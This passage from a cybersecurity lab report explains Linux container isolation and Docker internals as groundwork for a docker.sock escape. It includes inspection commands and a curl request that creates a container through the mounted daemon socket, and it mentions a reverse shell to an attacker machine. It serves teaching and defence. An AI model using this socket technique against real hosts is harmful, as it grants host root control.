\texttt{CAP\_SYS\_ADMIN} is not available. However, the \texttt{docker.sock} escape
entirely circumvents the capability model: the attacker does not perform privileged
syscalls from inside the container; instead, they instruct the Docker \textit{daemon}
to spawn a new privileged container on their behalf. The daemon executes with full
host root privileges and is unaffected by the attacking container's capability
restrictions. This is detailed in Chapter~6.


%% ─────────────────────────────────────────────────────────────────────────────
\section{Seccomp --- Syscall Filtering}
\label{sec:seccomp}
%% ─────────────────────────────────────────────────────────────────────────────

Seccomp (Secure Computing Mode) restricts the set of syscalls available to a process.
Docker applies a default seccomp profile that blocks approximately 44 syscalls
considered dangerous or unnecessary for typical container workloads. It represents the
last kernel-level line of defence between a container process and the host kernel.

Seccomp operates by attaching a BPF (Berkeley Packet Filter) program to the target
process. Every syscall invocation is evaluated against this program before the kernel
handler executes. Docker uses \texttt{SECCOMP\_MODE\_FILTER}, which allows a
fine-grained BPF rule set rather than the minimal
\texttt{SECCOMP\_MODE\_STRICT} (which permits only \texttt{read},
\texttt{write}, \texttt{exit}, and \texttt{sigreturn}).

Docker's default seccomp profile blocks, among others: \texttt{kexec\_load},
\texttt{ptrace}, \texttt{reboot}, \texttt{init\_module}, and
\texttt{perf\_event\_open}. The \texttt{mount} syscall is also blocked, preventing a
container process from directly mounting host filesystems.

Critically, the default profile \textbf{does not block} Unix domain socket
operations. The \texttt{socket(AF\_UNIX, ...)} syscall and all subsequent socket I/O
syscalls used to communicate with \texttt{docker.sock} are fully permitted. The
escape described in this report does not require bypassing seccomp.

\begin{lstlisting}[language=bash]
# Confirm seccomp profile for the running container
docker inspect netdiag-app | grep Seccomp

# Inspect blocked syscalls from the default profile
cat /etc/docker/seccomp.json | python3 -m json.tool | grep '"name"' | head -20
\end{lstlisting}

The flags \texttt{--security-opt seccomp=unconfined} and \texttt{--privileged} both
disable seccomp filtering entirely, significantly widening the attack surface.


%% ─────────────────────────────────────────────────────────────────────────────
\section{AppArmor and Linux Security Modules}
%% ─────────────────────────────────────────────────────────────────────────────

Linux Security Modules (LSMs) extend the kernel's Discretionary Access Control (DAC)
model with Mandatory Access Control (MAC). Where DAC enforces access rules based on
object ownership and permission bits, MAC enforces rules defined by a security policy
that neither the object owner nor even root can override within the kernel. LSM hooks
are inserted at kernel object boundaries---files, sockets, IPC objects---and are
invoked before every access decision.

AppArmor is the LSM shipped as Docker's default on Debian, Ubuntu, and Kali Linux.
It is a \textit{path-based} MAC system: profiles specify which filesystem paths a
process may access, which capabilities it may exercise, and what network operations
are permitted.

Docker loads its \texttt{docker-default} AppArmor profile for every container unless
overridden with \texttt{--security-opt apparmor=unconfined}. This profile restricts
access to sensitive \texttt{/proc} and \texttt{/sys} paths, and redundantly denies
the \texttt{mount} syscall. However, the \texttt{docker-default} profile does not
explicitly deny access to Unix domain sockets. Communication with
\texttt{docker.sock} is therefore \textit{permitted} by AppArmor as well as by
seccomp.

\begin{lstlisting}[language=bash]
# Confirm AppArmor profile assigned to the container
docker inspect netdiag-app | grep AppArmor

# List all loaded profiles on the host
aa-status
\end{lstlisting}

Falco, the runtime intrusion detection system evaluated in Chapter~11, operates at a
comparable layer via \texttt{fanotify} and eBPF probes rather than AppArmor profiles,
giving it visibility into \texttt{docker.sock} accesses that AppArmor silently permits.


%% ─────────────────────────────────────────────────────────────────────────────
\section{The \texttt{/proc} Filesystem}
%% ─────────────────────────────────────────────────────────────────────────────

\texttt{/proc} is a virtual filesystem generated entirely in kernel memory; no data
is stored on disk. It exposes kernel data structures as a navigable file hierarchy,
providing the primary introspection interface for process monitoring, namespace
inspection, and container detection tooling.

Each running process is represented by a directory \texttt{/proc/\textless{}pid\textgreater{}/}
containing, among others:

\begin{itemize}
    \item \texttt{ns/} --- symbolic links to namespace membership; inode comparison
          reveals whether two processes share a namespace.
    \item \texttt{fd/} --- symbolic links to all open file descriptors; reveals open
          sockets and files.
    \item \texttt{maps} --- the process memory map.
    \item \texttt{status} --- capability hex values, real and effective UIDs, and
          other per-process metadata.
    \item \texttt{mounts} --- the mount table as seen from this process's mount
          namespace; shows bind mounts including \texttt{docker.sock}.
    \item \texttt{cmdline} --- the command used to invoke the process.
\end{itemize}

The symlink \texttt{/proc/self} always resolves to the calling process's own
\texttt{/proc} directory. \texttt{/proc/net/unix} lists all Unix domain sockets
open on the system, confirming \texttt{docker.sock} availability.

\begin{lstlisting}[language=bash]
# From inside the container
ls -la /proc/self/ns/
cat /proc/self/mounts | grep docker
cat /proc/self/status | grep -E "Uid|Cap"

# From the host -- compare namespace inodes
readlink /proc/1/ns/mnt                # host init
readlink /proc/<container-pid>/ns/mnt  # container process
\end{lstlisting}

If the two \texttt{mnt} namespace inodes differ, the processes reside in separate
mount namespaces---confirming the container boundary. If they match after an escape
attempt, the escape succeeded and the attacker's process has joined the host mount
namespace. The detection script \texttt{detect.sh} relies on \texttt{lsof}, which
internally reads \texttt{/proc/*/fd/} to identify open socket descriptors.


%% ─────────────────────────────────────────────────────────────────────────────
\section{How the Kernel Sees a Container vs a Process}
\label{sec:kernel-synthesis}
%% ─────────────────────────────────────────────────────────────────────────────

The preceding sections can now be synthesised into a unified model. From the kernel's
perspective, a container is not a discrete entity; it has no dedicated data type
and no privileged representation. A container is simply a process tree whose members
share a common namespace set, are enrolled in a common cgroup hierarchy, hold a
specific capability set, and are subject to an optional seccomp filter and AppArmor
profile.

Internally, each process is represented by a \texttt{task\_struct}. The fields
relevant to container isolation are:

\begin{itemize}
    \item \texttt{nsproxy} --- pointer to the \texttt{nsproxy} structure holding
          references to the process's PID, NET, MNT, UTS, IPC, and USER namespace
          instances.
    \item \texttt{cgroups} --- pointer to the process's cgroup membership.
    \item Capability bitmasks (\texttt{cap\_permitted}, \texttt{cap\_effective}, etc.).
    \item Pointer to the attached seccomp BPF filter (if any).
\end{itemize}

\begin{figure}[h]
\centering

\includegraphics[width=0.9\textwidth]{images/ch2/kernel_view.png}
% Diagram: Kernel View --- Host Process vs Container Process (task\_struct comparison)
% Shows: two task\_struct boxes side by side; host process with host nsproxy;
% container process with its own nsproxy pointing to new NS objects;
% both pointing to same kernel, same cgroup root
\caption{Kernel View: Host Process vs Container Process (\texttt{task\_struct} comparison)}
\end{figure}

All containers on a host share:

\begin{itemize}
    \item The kernel binary and all loaded kernel modules.
    \item The kernel's physical memory (mapped, not directly accessible, but subject
          to shared-kernel vulnerabilities).
    \item The kernel's syscall dispatch table.
    \item The \texttt{/proc} filesystem (filtered per PID namespace).
\end{itemize}

A process holding \texttt{CAP\_SYS\_ADMIN} may call \texttt{setns()} to join any
namespace for which it possesses a valid file descriptor---this is the mechanism
underlying direct namespace escape techniques. The \texttt{docker.sock} escape used
in this project is architecturally different: the attacker process does not require
\texttt{CAP\_SYS\_ADMIN} and does not call \texttt{setns()} directly. Instead, it
communicates with the Docker daemon over the Unix socket. The daemon---which runs as
root on the host with an unrestricted capability set---performs all privileged
operations on the attacker's behalf. The kernel enforces nothing about the daemon's
own operations; it is a fully trusted root process.

Table~\ref{tab:isolation-gaps} summarises the isolation stack and its limitations as
they apply to the attack:

\begin{table}[h]
\centering
\caption{Container Isolation Stack: Mechanisms and Gaps}
\label{tab:isolation-gaps}
\begin{tabular}{|l|l|l|}
\hline
\textbf{Mechanism} & \textbf{What It Isolates} & \textbf{What It Does Not Stop} \\
\hline
Namespaces  & Resource visibility               & Shared kernel; daemon API access \\
cgroups     & Resource consumption              & Privilege escalation             \\
Capabilities & Privilege scope                 & Socket-based API access          \\
Seccomp     & Syscall surface                   & \texttt{AF\_UNIX} socket comms   \\
AppArmor    & File and capability access        & \texttt{docker.sock} by default  \\
\hline
\end{tabular}
\end{table}

The table illustrates why the \texttt{docker.sock} escape is particularly robust: it
does not conflict with any single layer of the isolation stack. No namespace prevents
it, no cgroup limits it, no capability check blocks it, seccomp permits the
underlying socket syscalls, and AppArmor's default profile allows Unix socket access.
Chapter~8 returns to this table to explain, in attack-flow terms, why each layer
fails to interrupt the exploit chain.
%% Chapter 3: Docker --- Architecture and Internals
%% Cybersecurity Lab Report --- Docker Escape via docker.sock Abuse and Command Injection

\chapter{Docker: Architecture and Internals}

%% ─────────────────────────────────────────────────────────────────────────────
\section{What Docker Is (and Is Not)}
%% ─────────────────────────────────────────────────────────────────────────────

Docker is frequently described as a lightweight virtualisation technology. This
description is misleading in a security context and must be corrected before the
attack surface can be accurately assessed. Docker performs no hardware emulation,
presents no virtual CPU, and runs no second kernel. It is, precisely, a toolchain
that automates the creation of namespaced process trees: it handles namespace
allocation, cgroup assignment, image unpacking, and process execution, and wraps all
of these operations behind a convenient command-line interface and a REST API.

The components that constitute the Docker system are:

\begin{itemize}
    \item \textbf{Docker CLI} (\texttt{docker}) --- a thin HTTP client that
          translates user commands into REST requests.
    \item \textbf{Docker daemon} (\texttt{dockerd}) --- the long-running, root-owned
          process that owns container lifecycle, image storage, networking, and
          volumes.
    \item \textbf{containerd} --- an industry-standard container runtime that manages
          lower-level lifecycle operations on behalf of \texttt{dockerd}.
    \item \textbf{runc} --- the OCI-compliant process launcher that makes the actual
          kernel calls to create namespaces and execute the container entrypoint.
\end{itemize}

A container, stripped of abstraction, is a namespaced and cgroup-limited process tree
executing on the host kernel. Docker adds value through its image format, registry
protocol, networking automation, volume management, and REST API surface. What it
does not add is a hardware isolation boundary.

The security implication is direct: because no hardware boundary exists, a kernel
vulnerability affects every container on the host simultaneously. More relevant to
this project, the Docker daemon (\texttt{dockerd}) runs as root on the host. It is
the privileged actor in the system---not the container. Any mechanism that grants a
container process the ability to communicate with the daemon is, in effect, a path to
host root.


%% ─────────────────────────────────────────────────────────────────────────────
\section{Docker vs Traditional Virtual Machines --- A Kernel-Level Comparison}
%% ─────────────────────────────────────────────────────────────────────────────

The distinction between virtual machine isolation and container isolation is not
merely a performance trade-off; it is a categorical difference in the security model.
Understanding this difference is essential to appreciating why the escape demonstrated
in this project requires no kernel exploit.

A virtual machine runs under a \textit{hypervisor}---either bare-metal (Type 1,
e.g., VMware ESXi, Xen) or hosted (Type 2, e.g., VirtualBox, QEMU/KVM). The
hypervisor emulates hardware, presenting a virtual CPU, memory bus, and devices to
the guest. The guest OS boots its own kernel in ring 0 of the virtual CPU. From the
guest's perspective, it owns dedicated hardware; from the host's perspective, the
guest is a managed process. Escaping a VM requires exploiting a vulnerability in the
hypervisor itself---typically a flaw in virtual device emulation (e.g., CVE-2015-3456
``VENOM'' in QEMU's floppy controller). Such vulnerabilities are rare, heavily
audited, and carry high exploitation complexity. Guest memory, CPU state, and devices
are fully virtualised: there is no shared kernel and no shared memory between guest
and host.

Container isolation, by contrast, rests entirely on kernel software primitives.
Namespaces restrict visibility; cgroups restrict resource consumption; capabilities
restrict privilege scope; seccomp and AppArmor narrow the syscall and file access
surface. All of these mechanisms were documented in Chapter~2. Because the host
kernel is shared, a container escape does not require defeating a hardware emulation
layer---it requires finding a misconfiguration or vulnerability in one of these
software mechanisms. The escape demonstrated in this project requires neither a
kernel CVE nor a seccomp bypass. It exploits a bind-mounted Unix socket and the
absence of daemon-side authentication, as established in Section~\ref{sec:dockersock}
and detailed in Chapter~4.

\begin{table}[h]
\centering
\caption{VM vs Container Isolation: Key Properties}
\label{tab:vm-vs-container}
\begin{tabular}{|l|l|l|}
\hline
\textbf{Property}       & \textbf{Virtual Machine}            & \textbf{Container}                  \\
\hline
Kernel                  & Separate per VM                     & Shared host kernel                  \\
Isolation boundary      & Hardware (hypervisor)               & Software (namespaces)               \\
Boot time               & Seconds to minutes                  & Milliseconds                        \\
Escape difficulty       & High (hypervisor CVE required)      & Lower (misconfiguration sufficient) \\
Syscall surface         & Virtualised                         & Direct to host kernel               \\
Overhead                & High (full OS stack)                & Near-zero                           \\
\hline
\end{tabular}
\end{table}

\begin{figure}[h]
\centering

\includegraphics[width=0.9\textwidth]{images/ch3/isolation_stack.png}
% Diagram: VM vs Container Isolation Stack
% Side-by-side:
%   VM stack:        hardware → hypervisor → guest kernel → guest userland
%   Container stack: hardware → host kernel → namespaces → container process
% Highlight shared kernel on container side
\caption{VM vs Container Isolation Stack}
\end{figure}

The bottom row of Table~\ref{tab:vm-vs-container} encapsulates the attack in one
line: the syscall surface of a container is the host kernel's syscall table, not a
virtualised interface. Any process with access to the Docker daemon API bypasses this
comparison entirely---the daemon itself is a root process on the host that operates
outside all container isolation mechanisms.


%% ─────────────────────────────────────────────────────────────────────────────
\section{The Docker Daemon (\texttt{dockerd})}
\label{sec:dockerd}
%% ─────────────────────────────────────────────────────────────────────────────

\texttt{dockerd} is the privileged long-running process at the centre of the Docker
architecture. It owns every container lifecycle operation---creation, start, stop,
deletion---as well as image storage, network bridge management, and volume lifecycle.
It is not a container itself; it is a root-owned service running directly on the host
with an unrestricted capability set.

By default, \texttt{dockerd} listens for API requests on a Unix domain socket at
\texttt{/var/run/docker.sock}. Optionally, it can be configured to listen on a TCP
port, but the socket is always present in standard deployments. The socket's
permissions are:

\begin{lstlisting}[language=bash]
srw-rw---- 1 root docker
\end{lstlisting}

Ownership by the \texttt{docker} group means that any process whose effective UID is
0, or whose GID includes \texttt{docker}, may open the socket and issue API requests.
There is no further authentication mechanism: socket access is daemon-equivalent
power. This is the misconfiguration vector---when the socket is bind-mounted into a
container, the container process acquires the ability to issue commands to the daemon
as if it were a trusted local client.

\begin{lstlisting}[language=bash]
# Verify daemon is running as root
ps aux | grep dockerd

# Inspect socket file permissions
ls -la /var/run/docker.sock
# srw-rw---- 1 root docker

# Direct API call to daemon from the host
curl --unix-socket /var/run/docker.sock http://localhost/version
\end{lstlisting}

The daemon delegates actual container execution to \texttt{containerd} via a gRPC
channel on \texttt{/run/containerd/containerd.sock}. \texttt{dockerd} handles the
higher-level concerns---API parsing, image management, network configuration---and
instructs \texttt{containerd} to manage the runtime process lifecycle.

\begin{figure}[h]
\centering

\includegraphics[width=0.9\textwidth]{images/ch3/docker_as_root_actor.png}
% Diagram: dockerd as Root Actor --- API Request Flow
% Shows: CLI → /var/run/docker.sock → dockerd (root) → containerd → runc → namespaced process
% Annotate: socket as the privileged choke point; dockerd runs as root on host
\caption{\texttt{dockerd} as Root Actor: API Request Flow}
\end{figure}

Because the daemon executes with full host-root privileges and performs its own
\texttt{clone()}, \texttt{mount()}, and \texttt{pivot\_root()} calls outside any
container's namespace or cgroup, none of the isolation mechanisms examined in
Chapter~2 constrain its actions. A caller that can reach the socket can instruct the
daemon to mount the host root filesystem into a new container and execute arbitrary
commands within it---as demonstrated in Chapter~8.


%% ─────────────────────────────────────────────────────────────────────────────
\section{containerd and runc}
%% ─────────────────────────────────────────────────────────────────────────────

Below \texttt{dockerd} sits a two-layer runtime stack whose separation clarifies
exactly where namespace creation and capability restriction occur.

\subsection{containerd}

\texttt{containerd} is a CNCF (Cloud Native Computing Foundation) container runtime
adopted as Docker's execution backend. It manages container lifecycle (create, start,
stop, delete), image storage via its snapshotter subsystem, and task supervision. It
communicates with \texttt{dockerd} over a gRPC channel on
\texttt{/run/containerd/containerd.sock}.

For each container, \texttt{containerd} spawns a \texttt{containerd-shim} process.
The shim is a lightweight supervisor that persists even if \texttt{containerd}
restarts: it holds the container's standard I/O streams, forwards exit codes, and
manages the \texttt{runc} lifecycle. Its persistence ensures containers are not
orphaned by daemon restarts.

\subsection{runc}

\texttt{runc} is the OCI-compliant low-level runtime. It is the component that
actually interacts with the kernel to create a container. Written in Go, \texttt{runc}
reads an OCI bundle (\texttt{config.json} plus a \texttt{rootfs/} directory) and
performs, in sequence:

\begin{itemize}
    \item \texttt{clone()} with namespace flags to create the process in fresh
          PID, NET, MNT, UTS, and IPC namespaces.
    \item \texttt{pivot\_root()} to switch the process's root filesystem to the
          container's OverlayFS mount.
    \item cgroup assignment by writing the process PID to the relevant cgroup
          \texttt{tasks} file.
    \item Capability bounding set reduction per \texttt{config.json}.
    \item \texttt{prctl(PR\_SET\_SECCOMP, ...)} to load the BPF filter.
    \item \texttt{execve()} to launch the container's entrypoint.
\end{itemize}

After \texttt{execve()} succeeds, \texttt{runc} exits. The \texttt{containerd-shim}
assumes supervision. The full execution chain is therefore:
\texttt{dockerd} $\rightarrow$ \texttt{containerd} $\rightarrow$
\texttt{containerd-shim} $\rightarrow$ \texttt{runc} $\rightarrow$ container PID 1.

\texttt{runc} has its own vulnerability history. CVE-2019-5736 allowed a malicious
container to overwrite the \texttt{runc} binary on the host via
\texttt{/proc/self/exe}, achieving a container escape without any misconfiguration.
The escape in this project requires no such exploit; it uses the daemon API directly.

\begin{lstlisting}[language=bash]
# Observe containerd and shim processes on the host
ps aux | grep containerd

# Low-level runc management
runc list
runc state <container-id>

# containerd socket permissions
ls -la /run/containerd/containerd.sock
\end{lstlisting}

\begin{figure}[h]
\centering

\includegraphics[width=0.6\textwidth]{images/ch3/docker_runtime_stack.png}
% Diagram: Docker Runtime Stack --- dockerd → containerd → runc → Process
% Full call chain with process names and IPC sockets between layers
% Annotate where clone() syscall fires (at runc level)
\caption{Docker Runtime Stack: \texttt{dockerd} $\rightarrow$ \texttt{containerd} $\rightarrow$ \texttt{runc} $\rightarrow$ Process}
\end{figure}


%% ─────────────────────────────────────────────────────────────────────────────
\section{The OCI Runtime Specification}
%% ─────────────────────────────────────────────────────────────────────────────

The Open Container Initiative (OCI), a Linux Foundation project, defines two
interoperable standards: the \textit{Runtime Specification}, which describes how a
compliant runtime must create and manage a container, and the \textit{Image
Specification}, which describes how a container image must be packaged and layered.
Any OCI-compliant runtime---\texttt{runc}, \texttt{crun}, or Kata Containers'
\texttt{kata-runtime}---can execute an OCI bundle.

An OCI bundle consists of a \texttt{config.json} file and a \texttt{rootfs/}
directory. \texttt{config.json} is the contract between the caller and the runtime.
The fields most relevant to security are:

\begin{itemize}
    \item \textbf{\texttt{namespaces}} --- the list of namespace types to create for
          this container (PID, NET, MNT, etc.).
    \item \textbf{\texttt{capabilities}} --- the permitted, effective, and bounding
          sets that the container process will hold after startup.
    \item \textbf{\texttt{seccomp}} --- the BPF filter profile to load.
    \item \textbf{\texttt{mounts}} --- the list of bind mounts to apply, including
          any \texttt{docker.sock} entries introduced by \texttt{-v} flags.
    \item \textbf{\texttt{linux.devices}} --- device nodes to expose inside the
          container; expanded by \texttt{--privileged}.
\end{itemize}

When a user passes \texttt{-v /var/run/docker.sock:/var/run/docker.sock} to
\texttt{docker run}, Docker translates this flag into a mount entry in
\texttt{config.json} before handing the bundle to \texttt{runc}. The entry appears
as:

\begin{lstlisting}[language=bash]
{
  "destination": "/var/run/docker.sock",
  "source":      "/var/run/docker.sock",
  "options":     ["rbind", "rprivate"]
}
\end{lstlisting}

This JSON fragment is the root cause of the misconfiguration. \texttt{runc} reads
it and calls \texttt{mount(MS\_BIND)} to attach the host socket path into the
container's mount namespace. The OCI bundle for a running container can be inspected
directly:

\begin{lstlisting}[language=bash]
cat /run/containerd/io.containerd.runtime.v2.task/moby/<id>/config.json
# reveals full namespace list, capability sets, seccomp profile, and mounts
\end{lstlisting}


%% ─────────────────────────────────────────────────────────────────────────────
\section{How \texttt{docker run} Becomes a Process --- Full Syscall Flow}
\label{sec:dockerrun-flow}
%% ─────────────────────────────────────────────────────────────────────────────

Tracing the complete path from \texttt{docker run} to a running namespaced process
reveals precisely where each kernel primitive from Chapter~2 is applied. The sequence
is as follows.

First, the Docker CLI parses the command-line flags and constructs an HTTP POST
request to the \texttt{/containers/create} endpoint on \texttt{dockerd}, transmitted
over \texttt{/var/run/docker.sock}. Second, \texttt{dockerd} receives the request,
pulls the image if it is not locally cached, and generates an OCI bundle including a
\texttt{config.json} encoding all runtime parameters. Third, \texttt{dockerd} calls
\texttt{containerd} over gRPC (\texttt{containerd.TaskService.Create}). Fourth,
\texttt{containerd} spawns a \texttt{containerd-shim-runc-v2} process. Fifth, the
shim invokes \texttt{runc run}.

Sixth---and most important for the kernel model---\texttt{runc} reads
\texttt{config.json} and executes the following sequence of syscalls:

\begin{itemize}
    \item \texttt{clone(CLONE\_NEWPID | CLONE\_NEWNS | CLONE\_NEWNET |} \\
          \texttt{CLONE\_NEWUTS | CLONE\_NEWIPC)} --- allocates fresh namespaces for
          the container process.
    \item \texttt{unshare(CLONE\_NEWUSER)} --- if user namespace remapping is
          enabled; not present in the default configuration used in this project.
    \item \texttt{pivot\_root()} --- switches the container process's root filesystem
          to the OverlayFS merged mount, replacing the host \texttt{/}.
    \item cgroup assignment --- the container's PID is written to the appropriate
          cgroup \texttt{tasks} file, applying resource limits.
    \item Capability drop --- the bounding set is reduced by clearing bits via
          \texttt{prctl(PR\_CAPBSET\_DROP)}.
    \item \texttt{prctl(PR\_SET\_SECCOMP, SECCOMP\_MODE\_FILTER, ...)} --- loads the
          BPF filter specified in \texttt{config.json}.
    \item Bind mounts (including \texttt{docker.sock}) are applied via
          \texttt{mount(MS\_BIND)} after \texttt{pivot\_root}.
    \item \texttt{execve()} --- replaces the \texttt{runc} process image with the
          container entrypoint (e.g., \texttt{python3 app.py}).
\end{itemize}

After \texttt{execve()}, \texttt{runc} exits and the \texttt{containerd-shim}
supervises the resulting container PID 1. From this moment, the container process is
running inside its namespace set with the bind-mounted \texttt{docker.sock} live in
its filesystem. The socket is present before the application code begins executing.

The syscall sequence can be observed live:

\begin{lstlisting}[language=bash]
strace -f -e clone,unshare,mount,pivot_root,execve \
  docker run --rm alpine echo hi 2>&1 | head -40
\end{lstlisting}

The HTTP layer can also be exercised directly, bypassing the CLI:

\begin{lstlisting}[language=bash]
curl --unix-socket /var/run/docker.sock \
  -X POST "http://localhost/containers/create" \
  -H "Content-Type: application/json" \
  -d '{"Image":"alpine","Cmd":["sh"]}'
\end{lstlisting}

This direct API interaction is the technique used in the escape chain: a
\texttt{curl} or \texttt{docker} binary inside the container issues the same HTTP
request, but the socket it reaches is the host daemon's socket, not a sandboxed
proxy.


%% ─────────────────────────────────────────────────────────────────────────────
\section{Docker Images and Layers (OverlayFS)}
%% ─────────────────────────────────────────────────────────────────────────────

A Docker image is an ordered, immutable stack of filesystem layers. Each layer is
a \texttt{tar} archive encoding the filesystem diff produced by a single
\texttt{Dockerfile} instruction (\texttt{RUN}, \texttt{COPY}, \texttt{ADD}, etc.).
Layers are stored on the host under \texttt{/var/lib/docker/overlay2/} and are
shared across containers that derive from the same base image.

At runtime, Docker assembles these layers into a unified filesystem view using
\textbf{OverlayFS}:

\begin{itemize}
    \item \textbf{\texttt{lowerdir}} --- the read-only stack of image layers,
          ordered from base to most recent.
    \item \textbf{\texttt{upperdir}} --- a per-container writable layer; all writes
          from within the container land here.
    \item \textbf{\texttt{workdir}} --- OverlayFS's internal staging area, required
          by the kernel implementation.
    \item \textbf{\texttt{merged}} --- the unified view presented as the container's
          root filesystem (\texttt{/}).
\end{itemize}

OverlayFS implements copy-on-write: reads are served from \texttt{lowerdir} until a
file is modified, at which point it is copied into \texttt{upperdir} and the write
applied there. When a container is deleted, \texttt{upperdir} is discarded; the image
layers in \texttt{lowerdir} remain intact and available to future containers.

A bind mount (\texttt{-v}) bypasses the OverlayFS stack entirely. It is implemented
as a \texttt{mount(MS\_BIND)} syscall that maps a host path directly into the
container's merged view. The \texttt{docker.sock} bind mount is not part of any image
layer; its inode lives on the host filesystem and is made accessible inside the
container without being copied, cached, or mediated by OverlayFS. The socket is
identical on both sides of the mount namespace boundary, as established in
Section~\ref{sec:mountns}.

\begin{lstlisting}[language=bash]
# View active OverlayFS mounts for running containers
mount | grep overlay

# Inspect layer paths via Docker inspect
docker inspect netdiag-app | python3 -c \
  "import sys,json; d=json.load(sys.stdin); \
   [print(g) for g in d[0]['GraphDriver']['Data'].values()]"

# Host overlay directory structure
ls /var/lib/docker/overlay2/
\end{lstlisting}


%% ─────────────────────────────────────────────────────────────────────────────
\section{Docker Networking Internals (Bridge, iptables, veth Pairs)}
%% ─────────────────────────────────────────────────────────────────────────────

Docker's default network mode is \texttt{bridge}. On first use, Docker creates a
virtual bridge interface \texttt{docker0} on the host with IP address
\texttt{172.17.0.1} and subnet \texttt{172.17.0.0/16}. Each container that joins
the default bridge network is connected to it via a \textit{virtual Ethernet pair}
(\texttt{veth}): a kernel-level point-to-point link whose two ends behave as ordinary
Ethernet interfaces.

One end of the veth pair (\texttt{vethXXXXXX}) is attached to \texttt{docker0} on
the host; the other end (\texttt{eth0}) is placed inside the container's network
namespace and assigned an IP address from Docker's IPAM pool (e.g.,
\texttt{172.17.0.2}). Traffic leaving the container traverses this path:
container \texttt{eth0} $\rightarrow$ veth pair $\rightarrow$ \texttt{docker0} bridge
$\rightarrow$ host NIC, with Network Address Translation applied by an iptables
\texttt{MASQUERADE} rule in the \texttt{POSTROUTING} chain.

Port mapping (e.g., \texttt{-p 5000:5000}) is implemented by \texttt{dockerd} as an
iptables DNAT rule in the \texttt{PREROUTING} chain, rewriting the destination
address of packets arriving on host port 5000 to the container's IP and port. A
corresponding \texttt{FORWARD} rule permits the bridged traffic.

For the reverse shell documented in Chapter~8, the relevant traffic path is: shell
process inside container $\rightarrow$ TCP connect to attacker IP on port 4444
$\rightarrow$ kernel TCP stack $\rightarrow$ \texttt{eth0} $\rightarrow$ veth pair
$\rightarrow$ \texttt{docker0} $\rightarrow$ iptables \texttt{MASQUERADE} $\rightarrow$
host NIC $\rightarrow$ NAT network $\rightarrow$ attacker VM. No elevated network
privilege is required for this path; outbound TCP connections are permitted under the
default network namespace configuration.

The flag \texttt{--network=host} removes the network namespace entirely, placing the
container directly on the host's network stack. This is a separate misconfiguration
not present in the lab environment.

\begin{figure}[h]
\centering

\includegraphics[width=0.9\textwidth]{images/ch3/docker_run.png}
% Diagram: Docker Bridge Networking --- Container to Host to External
% Shows: Container eth0 → veth pair (kernel) → docker0 bridge → iptables NAT → host NIC → external
% Annotate reverse shell traffic direction with a labelled arrow
% Include DNAT rule annotation for port 5000
\caption{Docker Bridge Networking: Container to Host to External Network}
\end{figure}

\begin{lstlisting}[language=bash]
# View docker0 bridge and attached veth pairs
ip link show
brctl show docker0

# iptables NAT rules added by Docker
iptables -t nat -L -n -v | grep -E "DOCKER|DNAT|MASQ"

# Container's network view
docker exec netdiag-app ip addr
docker exec netdiag-app ip route
\end{lstlisting}


%% ─────────────────────────────────────────────────────────────────────────────
\section{Docker Volumes and Bind Mounts}
\label{sec:bindmounts}
%% ─────────────────────────────────────────────────────────────────────────────

Docker offers two mechanisms for persisting or sharing data between host and
container: managed volumes and bind mounts. Their kernel-level behaviour differs
substantially, and the difference is the foundation of the misconfiguration exploited
in this project.

\subsection{Docker Volumes}

A Docker volume is managed entirely by \texttt{dockerd}. Volumes are stored under
\texttt{/var/lib/docker/volumes/} and are mounted into containers via
\texttt{mount(MS\_BIND)} from that daemon-controlled path. Their lifecycle is tied to
the Docker object model rather than to any specific host filesystem path, making them
the safer default: they expose no arbitrary host directory to the container.

\subsection{Bind Mounts}

A bind mount (\texttt{-v /host/path:/container/path}) instructs the kernel to make a
specific host path visible at a second location via a direct \texttt{mount(MS\_BIND,
host\_path, container\_path)} syscall. The host path's inode is mapped into the
container's mount namespace---no copy is made, and the inode number is identical on
both sides of the mount boundary. All permission checks operate on the original
inode's ACL; namespace membership does not add an additional access layer.

For the bind mount \texttt{-v /var/run/docker.sock:/var/run/docker.sock}:

\begin{itemize}
    \item The socket file's inode is numerically identical inside and outside the
          container.
    \item A container process running as UID 0 has the same permissions on the socket
          as a host root process: read and write access.
    \item No namespace mechanism, cgroup rule, capability check, seccomp filter, or
          AppArmor policy (in the default \texttt{docker-default} profile) blocks
          Unix socket communication via this path.
    \item The result is that the container process can open the socket and issue
          arbitrary Docker API requests to \texttt{dockerd}, which executes them with
          full host-root privilege.
\end{itemize}

\begin{lstlisting}[language=bash]
# Verify inode identity across the mount boundary
stat /var/run/docker.sock        # from inside the container
# On the host:
stat /var/run/docker.sock        # inode numbers will match

# Confirm the bind mount in the container's mount namespace
cat /proc/self/mounts | grep sock
\end{lstlisting}

The OCI representation of this mount entry in \texttt{config.json} is:

\begin{lstlisting}[language=bash]
{
  "destination": "/var/run/docker.sock",
  "source":      "/var/run/docker.sock",
  "options":     ["rbind", "rprivate"]
}
\end{lstlisting}

The \texttt{rbind} option makes the bind mount recursive, and \texttt{rprivate}
prevents mount propagation events in the container from affecting the host---but
neither option restricts the container's ability to read and write the socket itself.
